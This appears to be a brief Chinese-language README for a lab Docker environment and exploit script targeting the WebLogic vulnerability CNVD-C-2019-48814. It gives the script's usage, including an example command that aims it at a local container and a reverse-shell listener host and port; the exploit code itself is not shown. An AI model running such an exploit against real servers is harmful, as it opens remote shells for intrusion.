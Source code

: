 # CNVD-C-2019-48814

## CNVD-C-2019-48814漏洞利用环境

本Docker环境是对`ismaleiva90/weblogic12`的直接引用，未做任何修改，感谢原作者！

## Exp 用法：

`python3 CNVD-C-2019-48814.py TARGET REVERSE_HOST REVERSE_PORT`

Example:

`python3 CNVD-C-2019-48814.py http://172.17.0.2:7001 172.17.0.1 4444`


